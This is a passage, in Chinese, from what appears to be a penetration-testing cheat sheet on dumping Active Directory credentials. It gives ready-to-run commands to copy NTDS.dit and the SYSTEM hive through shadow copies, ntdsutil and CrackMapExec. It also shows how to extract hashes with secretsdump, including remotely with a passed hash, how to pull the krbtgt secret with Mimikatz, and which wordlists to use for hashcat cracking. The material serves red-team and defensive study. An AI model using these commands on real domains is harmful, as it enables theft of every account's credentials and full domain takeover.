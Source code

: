 VSS是一项Windows服务，允许用户在特定时间点创建其数据的快照或备份。攻击者可以滥用此服务来访问和复制敏感数据，即使它当前正在被另一个进程使用或锁定。

* [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)
  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```
* [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)
  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```
* [CrackMapExec VSS module](https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit)
  ```powershell
  cme smb 10.10.0.202 -u username -p password --ntds vss
  ```

### 从ntds.dit提取哈希值

然后您需要使用[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)来提取哈希值，在检索到的ntds.dit上使用`LOCAL`选项

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)也可以远程使用

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`：显示每个NTDS.DIT帐户的pwdLastSet属性。
* `-user-status`：显示用户是否被禁用。

### 使用Mimikatz sekurlsa

在域控制器上运行时，转储Active Directory域中的凭据数据。
:警告：需要具有调试权限或本地SYSTEM权限的管理员访问权限

```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

### 使用hashcat破解NTLM哈希

当您想要获得明文密码或需要进行弱密码统计时很有用。

推荐词表：

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- 在[Methodology and Resources/Hash Cracking.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md)中阅读更多
